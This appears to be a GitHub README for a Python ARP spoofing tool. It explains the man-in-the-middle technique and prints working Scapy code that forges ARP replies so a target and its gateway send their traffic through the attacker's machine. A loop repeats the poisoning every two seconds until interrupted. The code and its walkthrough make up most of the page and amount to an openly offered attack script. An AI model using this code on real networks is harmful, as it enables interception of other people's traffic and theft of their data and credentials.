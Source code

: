 # Arp_Spoof

Program in python to perform an attack technique in which an attacker sends ARP (Address Resolution Protocol) messages in order to associate your MAC address with the IP address of another host, such as the IP address of the default gateway, causing all traffic is sent to the attacker's IP address instead of the gateway's IP address.

## Used Modules

  * Scapy
  * optparse

## Scapy

The module is used to send and receive the ARP messages(can be used to Create Packets, Analyse Packets and send/receive Packets) in this case we are gonna use to send responses to client, and the default gateway, this way the client will think that my host is the gateway and the gateway that i'm the client, and all the packet traffic will pass through my host.

```python
def spoof(target_ip, spoof_ip): 
    global mac 
    target_mac = mac
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    scapy.send(packet, verbose=False)
   
mac = get_mac(target_ip)
```
The function spoof receive like arguments the target_ip which is the IP that i want to send the responses pretending be another host, and the spoof_ip is the IP tha i want to pretend be. On the line 4 i create the packet that i'm gonna send to the target, with scapy.ARP(), putting the IP and MAC address of our target(the host) and putting the source IP like the spoof_ip(in this case the gateway), with that when the target reveive the response it will appear the IP of the authentic gateway, but actually my MAC address will be associated with this IP, and i'm gonna receive all the responses from it. The same thing will happen with the gateway to pretend be the authentic host.

```python
try:
   packets_sent_count = 0
   while True:
      spoof(target_ip, gateway_ip)
      spoof(gateway_ip , target_ip)
      packets_sent_count += 2
      print("\r[+] Packets sent: " + str(packets_sent_count), end="")
      time.sleep(2)
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C, Resetting ARP tables...")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)  
```
I have to send packets pretending being another host constantly, so i used one infinite loop (while True:), 
but I still put a 2 second of interval between sending packages to have at least control.<br>

With the exception when CTRL + C is typed the progam stops running, and use the restore functions to restore the ARP tables of the target host and the gateway.

<img src="termi.png">

So until we type CTRL + C the progam is sending packets two by two (one for the target and one for the gateway).

